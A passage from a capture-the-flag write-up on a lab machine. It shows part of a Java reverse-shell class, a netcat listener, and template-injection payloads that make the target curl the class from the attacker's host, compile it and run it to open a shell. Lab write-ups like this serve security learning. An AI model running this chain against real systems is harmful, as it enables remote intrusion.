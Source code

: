 ```java
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

(Of course, I tested this using a local connection, specifying 127.0.0.1 port 4444 initially)

I put this into a folder hosted using python's http.server on port 8080 then set up my netcat listener:

```bash
nc -lvnp 4444
```

Then I utilized the template injection vulnerability to issue the following commands to the target machine, in the form of payloads created by [ssti-payload](https://github.com/VikasVarshney/ssti-payload).

> issue command to ssti-payload, then strip off the leading "${" and trailing "}", then use the template injection vuln by searching commands of the form "*{[PAYLOAD]}", where [PAYLOAD] is the stripped output of ssti-payload as described above

```bash
curl 10.10.14.4:8080/C.java -o /home/woodenk/C.java
javac /home/woodenk/C.java
java -cp /home/woodenk C
```

And there's the shell!



## USER FLAG

### Finding Python

Immediately after getting the shell, I realized I had mistakenly discounted python... python3 is definitely present (yikes I needed this practice 😓) and I could have used my favoured python3 shell anyway.
